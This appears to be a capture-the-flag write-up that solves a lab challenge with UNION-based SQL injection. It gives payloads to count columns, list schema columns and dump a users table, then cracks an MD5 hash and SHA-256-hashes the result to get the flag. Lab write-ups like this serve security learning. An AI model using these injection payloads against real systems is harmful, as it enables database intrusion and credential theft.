 ### Step 1: Identify the number of columns required for the request

```sql
1 OR 1=1 UNION SELECT NULL, NULL--
```

> Result: `2 columns`

---

### Step 2: Retrieve the column names from the `users` table

```sql
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

> Columns found: `user_id, first_name, last_name, town, country, planet, Commentaire, countersign`

---

### Step 3: View all the data for users

```sql
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```

> Example output:
> `user_id = 5`
> `FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28`

---

### Step 4: Process the password

```python
md5_decrypt('5ff9d0165b4f92b14994e5c685cdce28')
```

> Output: `FortyTwo`

```sql
lower('FortyTwo')
```

> Output: `fortytwo`

```sql
sh256('fortytwo')
```

> Output: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
